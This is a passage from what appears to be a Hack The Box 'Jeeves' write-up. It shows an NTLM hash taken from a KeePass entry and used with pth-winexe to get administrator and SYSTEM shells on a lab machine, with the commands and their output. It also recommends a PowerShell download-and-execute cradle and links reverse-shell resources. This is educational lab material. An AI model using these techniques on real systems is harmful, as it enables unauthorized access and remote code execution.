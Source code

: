 ```
kpcli:/CEH> show -f 0

Title: Backup stuff
Uname: ?
 Pass: aa****************************4ee:e0****************************e00
  URL:
Notes:
```

That does not look like a password but more like a hash, so we can use a tool like `pth-winexe` to gain access to the target machine as administrator.

```
$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.129.228.112 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator
```

Here, we logged in as the administrator but we can even login as system by adding the flag `--system` to our command.

```
$ pth-winexe -U Administrator%aa****************************4ee:e0****************************e00 --system //10.129.228.112 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

And with that we escalated our privilege to SYSTEM level!

## Key Points to Take Away

1. If there is a vulnerability that you are sure about, keep trying different ways to exploit it.
2. When you want to run PowerShell command directly from a script pulled from web use `powershell -c IEX ((New-Object System.WebClient).DownloadString`, `IEX(IWR().Content)` might not work.

## References

1. [Jeeves](https://app.hackthebox.com/machines/114)
2. [RevShells](https://www.revshells.com/)
3. [HackTricks: Privilege Escalation Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
4. [Juicy Potato](https://github.com/ohpe/juicy-potato)
5. [Nishang: Invoke-PowerShellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
6. [New-PSDrive](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-psdrive?view=powershell-7.4)

